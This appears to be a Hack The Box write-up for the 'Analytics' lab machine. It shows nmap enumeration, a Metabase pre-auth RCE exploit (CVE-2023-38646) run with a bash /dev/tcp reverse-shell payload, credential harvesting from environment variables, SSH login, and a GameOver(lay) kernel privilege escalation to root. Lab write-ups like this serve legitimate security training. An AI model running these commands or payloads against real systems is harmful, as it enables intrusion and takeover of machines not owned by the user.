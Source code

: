 ```yaml
---
title: HTB - Analytics
date: 2023-12-29
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, nmap, analytics, cve-2023-38646, cve-2023-32629]
img_path: /assets/blue/
published: true
---
```


![room_banner](blue_banner.png)

## Overview

|:-:|:-:|
|Machine|[Analytics](https://app.hackthebox.com/machines/569)|
|Rank|Easy|
|Time|-|
|Focus|CVEs|

> CONTENT HIDDEN - ACTIVE MACHINE!
{: .prompt-warning}

## Information gathering

```shell
# port-scanning
$ sudo nmap analytics -T4 --min-rate 10000 -A

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
```

## Web enumeration

According to Nmap's output, the HTTP server redirects us to `http://analytical.htb/`, so we have to add it to our `/etc/hosts` file:

  ![](etc_hosts.png)

  ![](home.png)

When clicking on `Login` we are redirected to `data.analytical.htb`:

  ![](analytical_login.png)

Let's us add this to `/etc/hosts` as well:

  ![](etc_hosts_1.png)

  ![](home_data.png)

Viewing the page source, we can find Metabase's version:

  ![](metabase_version.png)

Searching Google for a public exploit we find the [Metabase Pre-Auth RCE (CVE-2023-38646) POC](https://github.com/Pyr0sec/CVE-2023-38646). This requires the value of the `setup token` which can be found in the `/api/session/properties` directory:

  ![](setup-token.png)

All we have to do now, is to open a listener and run the PoC with a Bash reverse shell payload:

  ```shell
  # setting up a listener
  $ nc -lvnp 1337
  listening on [any] 1337 ...
  ```

  ```shell
  # executing the PoC
  $ python3 exploit.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "bash -i >& /dev/tcp/10.10.14.6/1337 0>&1"
  ```

  ```shell
  # catching the reverse shell
  $ nc -lvnp 1337
  listening on [any] 1337 ...
  connect to [10.10.14.6] from (UNKNOWN) [10.10.11.233] 43200
  bash: cannot set terminal process group (1): Not a tty
  bash: no job control in this shell
  59a5ee253db5:/$
  ```

After exploring the environment, we can find some credentials listed on the `env` variable:

  ```shell
  59a5ee253db5:/$ env
  env
  SHELL=/bin/sh
  MB_DB_PASS=
  HOSTNAME=59a5ee253db5
  LANGUAGE=en_US:en
  MB_JETTY_HOST=0.0.0.0
  JAVA_HOME=/opt/java/openjdk
  MB_DB_FILE=//metabase.db/metabase.db
  PWD=/
  LOGNAME=metabase
  MB_EMAIL_SMTP_USERNAME=
  HOME=/home/metabase
  LANG=en_US.UTF-8
  META_USER=metalytics # Username
  META_PASS=An4lytics_ds20223# # Password
  MB_EMAIL_SMTP_PASSWORD=
  USER=metabase
  SHLVL=4
  MB_DB_USER=
  FC_LANG=en-US
  LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
  LC_CTYPE=en_US.UTF-8
  MB_LDAP_BIND_DN=
  LC_ALL=en_US.UTF-8
  MB_LDAP_PASSWORD=
  PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
  MB_DB_CONNECTION_URI=
  JAVA_VERSION=jdk-11.0.19+7
  _=/usr/bin/env
  OLDPWD=/var
  ```

We can use them to log in to the SSH server and right away find the `user.txt`:

  ```shell
  $ ssh metalytics@analytics
  # pass: An4lytics_ds20223#
  metalytics@analytics:~$ ls -la
  total 36
  drwxr-x--- 4 metalytics metalytics 4096 Aug  8 11:37 .
  drwxr-xr-x 3 root       root       4096 Aug  8 11:37 ..
  lrwxrwxrwx 1 root       root          9 Aug  3 16:23 .bash_history -> /dev/null
  -rw-r--r-- 1 metalytics metalytics  220 Aug  3 08:53 .bash_logout
  -rw-r--r-- 1 metalytics metalytics 3771 Aug  3 08:53 .bashrc
  drwx------ 2 metalytics metalytics 4096 Aug  8 11:37 .cache
  drwxrwxr-x 3 metalytics metalytics 4096 Aug  8 11:37 .local
  -rw-r--r-- 1 metalytics metalytics  807 Aug  3 08:53 .profile
  -rw-r----- 1 root       metalytics   33 Dec 29 16:56 user.txt
  -rw-r--r-- 1 metalytics metalytics   39 Aug  8 11:30 .vimrc
  ```

There isn't anything of interest laying around, so we can check the kernel's version and look for a public exploit:
  
  ```shell
  metalytics@analytics:/$ uname -a
  Linux analytics 6.2.0-25-generic \#25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
  ```

There is the [GameOver(lay) Ubuntu Privilege Escalation](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629) which we can copy and paste on our target from the `/tmp` directory:

  ```shell
  metalytics@analytics:/$ cd /tmp
  metalytics@analytics:/tmp$ nano exploit.sh
  metalytics@analytics:/tmp$ chmod +x exploit.sh
  metalytics@analytics:/tmp$ ./exploit.sh
  [+] You should be root now
  [+] Type 'exit' to finish and leave the house cleaned
  root@analytics:/tmp# id
  uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
  root@analytics:/tmp# ls /root/
  root.txt
  ```

<figure>
    <img src="machine_pwned.png"
    alt="Machine pwned" >
</figure>